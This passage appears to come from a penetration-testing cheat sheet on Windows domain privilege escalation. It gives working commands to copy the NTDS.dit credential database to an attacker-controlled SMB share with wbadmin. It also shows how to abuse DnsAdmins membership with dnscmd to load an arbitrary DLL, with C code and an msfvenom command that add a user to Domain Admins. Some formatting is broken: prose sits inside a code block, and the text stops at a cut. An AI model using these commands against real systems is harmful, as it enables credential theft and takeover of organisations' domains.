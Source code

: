 #### Using wbadmin.exe

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
   ```cmd
   net use X: \\<AttackIP>\sharename /user:smbuser password
   echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
   wbadmin get versions
   echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
   ```

For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

Restarting the DNS service (which may require additional permissions) is necessary for the DLL to be loaded:
